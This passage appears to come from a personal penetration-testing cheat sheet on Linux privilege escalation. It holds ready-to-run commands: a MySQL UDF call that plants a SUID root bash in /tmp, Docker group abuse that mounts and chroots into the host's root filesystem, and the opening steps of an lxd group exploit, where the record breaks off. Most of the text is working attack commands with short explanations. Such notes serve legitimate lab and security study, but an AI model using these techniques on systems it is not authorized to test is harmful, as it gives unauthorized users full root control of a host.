 - Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
- Exit out of the mysql shell
```
\q
```
- Run /tmp/rootbash with -p to gain a root shell
`/tmp/rootbash -p`
### Docker Linux Local PE
```
id
```
- Check to see if the user is in the docker group
```
docker run hello-world
```
- Check to see if docker is installed and working correctly
```
docker run -v /root:/mnt alpine cat /mnt/key.txt
```
- `-v` specifies a volume to mount, in this case the /root directory on the house was mounted to the /mnt directory on the container.  Because docker has SUID we were able to mount a root owned directory in our container
```
docker run -it -v /:/mnt alpine chroot /mnt
```
- Roots the host with docker because we used chroot on the /mnt directory.  This allowed us to use the host operating system.
```
docker run -it ubuntu bash
```
- Optional: Run an ubuntu container with docker
### lxd Group Priv Esc
- Exploit without internet connection
- Change to the root user on attack box
```
sudo su
```
- Install Requirements on your attack box
```
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
```
- Clone the repo (attack box)
```
sudo go get -d -v github.com/lxc/distrobuilder
```
- Make distrobuilder (attack box)
```
cd $HOME/go/src/github.com/lxc/distrobuilder
make
```
- Prepare the creation of Alpine (attack box)
```
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```
- Create the container (attack box)
```
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml
```
-If that fails, run it adding `-o image.release=3.8` at the end
